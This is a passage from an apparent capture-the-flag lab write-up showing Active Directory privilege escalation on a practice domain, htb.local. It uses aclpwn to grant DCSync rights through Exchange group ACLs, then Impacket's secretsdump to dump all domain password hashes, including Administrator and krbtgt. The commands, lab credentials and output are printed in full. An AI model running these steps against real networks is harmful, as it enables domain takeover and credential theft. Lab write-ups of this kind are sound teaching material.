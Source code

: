 ### Privesc with DCSync

To exploit the ACL path automatically we can use [aclpwn](https://github.com/fox-it/aclpwn.py):

```
root@kali:~/openvpn# aclpwn -f svc-alfresco -ft user -t htb.local -tt domain -d htb.local -dp bloodhound -du neo4j --server 10.10.10.161 -u svc-alfresco -sp s3rvice -p s3rvice
[+] Path found!
Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GenericAll on EXCH01.HTB.LOCAL (Computer)
[-] Invalid path, skipping
[+] Path found!
Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
[-] Invalid path, skipping
Please choose a path [0-1] 0
[-] Memberof -> continue
[-] Memberof -> continue
[-] Memberof -> continue
[-] Adding user svc-alfresco to group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL
[+] Added CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local as member to CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
[-] Switching context to svc-alfresco
[+] Done switching context
[-] Modifying domain DACL to give DCSync rights to svc-alfresco
[+] Dacl modification successful
[+] Finished running tasks
[+] Saved restore state to aclpwn-20191013-084938.restore
```

Now that we have the DCsync rights, we can use secretsdump.py to perform DCsync and get all the hashes.

```
root@kali:~/openvpn# secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[...]
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
[...]
[*] Cleaning up...
```
